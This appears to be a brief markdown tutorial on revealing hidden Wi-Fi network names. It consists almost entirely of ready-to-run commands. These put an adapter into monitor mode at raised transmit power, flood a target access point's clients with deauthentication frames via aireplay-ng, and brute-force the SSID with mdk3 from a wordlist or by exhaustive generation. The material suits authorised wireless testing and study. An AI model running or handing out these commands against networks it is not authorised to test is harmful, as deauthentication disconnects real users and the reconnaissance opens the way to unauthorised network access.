 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.

## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
sudo airmon-ng check kill
```
Start monitor mode:
```
sudo airmon-ng start wlan1
```
Run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
sudo airodump-ng wlan1mon --band agp -w dump
```

## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name.
Run airodump live to see ESSID update:
```
sudo airodump-ng wlan1mon --band agp
```
On a second terminal, deauth target client MAC (`-c`) with AP MAC (`-a`)  (both found in dump):
```
sudo aireplay-ng -0 100 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
Watch live dump to see updated ESSID

## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
sudo mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
sudo mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
sudo mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
